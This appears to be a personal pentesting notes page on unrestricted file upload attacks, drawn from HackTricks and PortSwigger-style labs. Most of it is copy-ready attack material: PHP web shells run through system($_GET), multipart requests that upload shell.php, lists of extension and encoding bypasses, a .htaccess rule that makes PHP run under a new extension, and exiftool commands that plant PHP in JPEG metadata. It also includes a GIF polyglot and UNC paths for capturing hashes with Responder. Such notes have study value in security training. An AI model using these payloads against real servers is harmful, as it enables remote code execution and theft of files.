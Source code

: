 https://book.hacktricks.xyz/pentesting-web/file-upload
# Unrestricted File Upload
- Upload a PHP Shell
```php
<?php echo system($_GET['command']); ?>

<?php echo file_get_contents('/path/to/target/file'); ?>     // To read contents of a file
```

- Go to the *Proxy tab* in [[Website Hacking/Tools/Burp Suite/Basics]] and look at the *HTTP History* to find out where the ***file is uploaded***.
![[Pasted image 20230629125530.png]]
**OR**
- Try to Manually find directories using [[FFUF]]


---
# Content-Type Restriction Bypass
When submitting HTML forms, the browser typically sends the provided data in a `POST` request with the content type `application/x-www-form-url-encoded`. This is *fine for sending simple text like your name, address*, and so on, but is **not suitable for sending large amounts of binary data**, such as an **entire image file or a PDF document**. In this case, the content type `multipart/form-data` is the preferred approach.

```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456 

---------------------------012345678901234567890123456 
Content-Disposition: form-data; name="image"; filename="shell.php"
Content-Type: application/octet-stream    // Change this one to "image/jpeg" if only those type of files are allowed

[...binary content of example.jpg...] -----------------------

----012345678901234567890123456
Content-Disposition: form-data; name="description" This is an interesting description of my image.

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"
wiener
---------------------------012345678901234567890123456--
```

---
# Shell Upload via Path Traversal
Web servers often use the `filename` field in `multipart/form-data` requests to determine the name and location where the file should be saved.
![[Pasted image 20230629182913.png]]

---
## Bypass File Extensions
```
.php
.php3
.php4
.php5
.phtml
.shtml
```

## Bypass with Encoding
```
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....
```

---
# Overriding the Server Configuration
1) **Apache**
#apache 
Many servers also allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings. Apache servers, for example, will load a *directory-specific* configuration from a file called `.htaccess` if one is present. `.htaccess` configurations are *applicable only for the same directory and sub-directories* where the .htaccess file is uploaded.
```php
AddType application/x-httpd-php .rce
```

Then upload any file with `.rce` extension.
This maps an arbitrary extension (`.rce`) to the executable MIME type `application/x-httpd-php`. As the server uses the `mod_php` module, it knows how to handle this already.

For more `.htaccess` exploits, [Click Here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess)


2) **IIS**
#iis 
Developers can make directory-specific configuration on IIS servers using a `web.config` file. This might include directives such as the following, which in this case allows JSON files to be served to users:
```config
<staticContent>
<mimeMap fileExtension=".json" mimeType="application/json" />
</staticContent>
```

---
# Obfuscating File Extensions
- `exploit.pHp` : If the code that subsequently maps the file extension to a MIME type is **not** case sensitive, this discrepancy allows you to sneak malicious PHP files past validation that may eventually be executed by the server.
-   Provide multiple extensions. Depending on the algorithm used to parse the filename, the following file may be interpreted as either a PHP file or JPG image: `exploit.php.jpg`
-   Add **trailing characters**. Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php..`
-   Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: `exploit%2Ephp`
-   Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
-   Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
- `exploit.p.phphp` if <mark style="background: #ADCCFFA6;">.php</mark> is stripped from the filename.

---
# RCE via Polyglot File
### What are polyglots?
Polyglots, in a security context, are files that are a valid form of multiple different file types. For example, a [GIFAR](https://en.wikipedia.org/wiki/Gifar) is both a GIF and a RAR file. There are also files out there that can be both GIF and JS, both PPT and JS, etc.

Polyglot files are often used to bypass protection based on file types. Many applications that allow users to upload files only allow uploads of certain types, such as JPEG, GIF, DOC, so as to prevent users from uploading potentially dangerous files like JS files, PHP files or Phar files.

One example of a polyglot file is a Phar-JPEG file. Phar files are used to carry out PHP object injection attacks.

Instead of implicitly trusting the `Content-Type` specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

In the case of an image upload function, the server might try to verify certain intrinsic properties of an image, such as its *dimensions*. If you try uploading a <mark style="background: #ADCCFFA6;">PHP</mark> script, for example, it *won't have any dimensions* at all. Therefore, the server can deduce that it can't possibly be an image, and reject the upload accordingly.

Similarly, certain file types may always contain a specific sequence of bytes in their header or footer.

### Bypass Methods
1) Using `Exiftool`
```sh
exiftool -comment="<?php echo 'START ' . system($_GET['command']) . 'END'; ?>" flower.jpg -o polyglot.php
```
OR
```sh
exiftool -comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . 'END'; ?>" flower.jpg -o polyglot.php
```

We can also set payload in the **Document Name** meta field. To do this, run this command:
```sh
exiftool -documentname='<?php passthru(\$_GET'cmd'); _halt_compiler(); ?>' flower.jpg -o polyglot.php
```


2) **GIF89**
Checkout this **section**: https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#magic-bytes
It contains a `PHP payload` in the [Comment Extension](https://www.w3.org/Graphics/GIF/spec-gif89a.txt) of a 1 pixel GIF
```sh
hexdump -C polyglot.php.gif
00000000  47 49 46 38 39 61 01 00  01 00 00 ff 00 2c 00 00  |GIF89a.......,..|
00000010  00 00 01 00 01 00 00 02  00 21 fe 3c 3f 70 68 70  |.........!.<?php|
00000020  69 6e 66 6f 28 29 3b                              |info();|
```

![[Pasted image 20230629235227.png]]

```sh
GIF
```


3) **PDF**
You can add a comment (`%`) on the PDF header (Name ends with php):
```php
%PDF-
[php_reverse_shell]
```

---
# File Upload to Responder
Use a UNC filename to Responder server IP
Like `\\\\192.168.119.2\\share`

##### Malicious PDF upload
https://ironhackers.es/en/tutoriales/robando-hashes-ntlm-de-windows-mediante-un-pdf-malicioso/

##### Other files
https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication
https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/